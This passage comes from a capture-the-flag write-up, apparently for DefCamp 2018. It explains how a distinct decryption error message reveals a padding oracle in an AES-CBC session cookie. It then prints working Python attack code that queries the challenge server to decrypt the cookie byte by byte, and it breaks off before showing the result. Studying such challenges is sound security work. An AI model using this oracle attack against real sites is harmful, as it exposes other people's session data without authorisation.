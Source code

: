 So our cookie is first AES-CBC decrypted.
If tis operation fails, we get the `'Decryption error (0).'`.
This is the only time we get this specific error message and the only way
for the decryption to fail in this phase is if the padding at the end of
the last block is incorrect.

This means we have a padding oracle, which we can use to decrypt our cookie.
There is a nice library called
[python-paddingoracle](https://github.com/mwielgoszewski/python-paddingoracle)
that implements a standard padding oracle attack.
We only need to implement the oracle part via python requests.
To do so, we modified the example code from the readme file:

```python
[...]
from paddingoracle import BadPaddingException, PaddingOracle

class PadBuster(PaddingOracle):
    def __init__(self, **kwargs):
        super(PadBuster, self).__init__(**kwargs)
        self.session = requests.Session()
        self.wait = kwargs.get('wait', 2.0)

    def oracle(self, data, **kwargs):
        user_cookie = quote(b64encode(data)) + "000071"
        self.session.cookies['user'] = user_cookie
        while True:
            try:
                response = self.session.get('https://admin.dctfq18.def.camp',
                        stream=False, timeout=5, verify=False)
                break
            except (socket.error, requests.exceptions.RequestException):
                logging.exception('Retrying request in %.2f seconds...',
                                  self.wait)
                time.sleep(self.wait)

        self.history.append(response)

        if "Decryption error (0)." in response.text:
            raise BadPaddingException

        print('No padding exception raised on %r'% user_cookie)

encrypted_cookie = unquote("USVx0XaRKUqRjovB1%2BLShzc4Cj7G4s5Iyk9Rx%2BCmi7vBRVeinUtxW7vPekFMQjsw%2BlYqkHtc1R9oJoOBs0KAXZ6zbGkzs3HthZBWxX%2FlAvY%3D000071")
aes_part = b64decode(encrypted_cookie[:-6])
len_str = encrypted_cookie[-6:]
padbuster = PadBuster()
cookie = padbuster.decrypt(aes_part, block_size=AES.block_size, iv=bytearray(8))
print(cookie)
```

Now we are able to decrypt our own cookie byte by byte. The result is:
